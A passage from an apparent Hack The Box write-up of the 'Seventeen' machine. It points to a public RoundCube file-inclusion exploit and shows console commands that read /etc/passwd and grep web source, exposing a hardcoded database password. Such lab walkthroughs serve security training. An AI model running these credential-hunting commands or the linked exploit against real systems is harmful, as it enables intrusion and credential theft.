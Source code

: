 This is a docker container.

### RoundCube [Intended]

![image-20240305020017142](./Seventeen.assets/image-20240305020017142.png)

Another subdomain: `mastermailer.seventeen.htb` hosted by RoundCube.

- `/CHANGELOG`: Version 1.4.2, [GitHub Repo]([Releases · roundcube/roundcubemail (github.com)](https://github.com/roundcube/roundcubemail/releases?page=3))
- **Exploit**: [CVE-2020-12640 Local File Inclusion-Roundcube](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12640-PHP Local File Inclusion-Roundcube)

## Privilege Escalation

Usernames: kavi, mark

```console
mark@seventeen:/dev/shm$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
kavi:x:1000:1000:kavi:/home/kavi:/bin/bash
mark:x:1001:1001:,,,:/home/mark:/bin/bash
```

### www-data container -> mark

grep information from directory of sites:

```console
www-data@80ffe78df01c:/var/www/html/employeemanagementsystem$ grep -ri 'password' . -B5
--
./process/dbh.php-<?php
./process/dbh.php-
./process/dbh.php-$servername = "localhost";
./process/dbh.php-$dBUsername = "root";
./process/dbh.php:$dbPassword = "2020bestyearofmylife";
./process/dbh.php-$dBName = "ems";
./process/dbh.php-
./process/dbh.php:$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);
--

www-data@80ffe78df01c:/var/www/html$ grep -lri 'mysql' .
grep -lri 'mysql' .
./mastermailer/SQL/mysql/2009103100.sql
./mastermailer/plugins/password/README
./mastermailer/plugins/squirrelmail_usercopy/config.inc.php.dist
./mastermailer/CHANGELOG
./mastermailer/program/lib/Roundcube/rcube_utils.php
./mastermailer/program/lib/Roundcube/db/mysql.php
./mastermailer/program/lib/Roundcube/README.md
./mastermailer/program/lib/Roundcube/rcube_db.php
```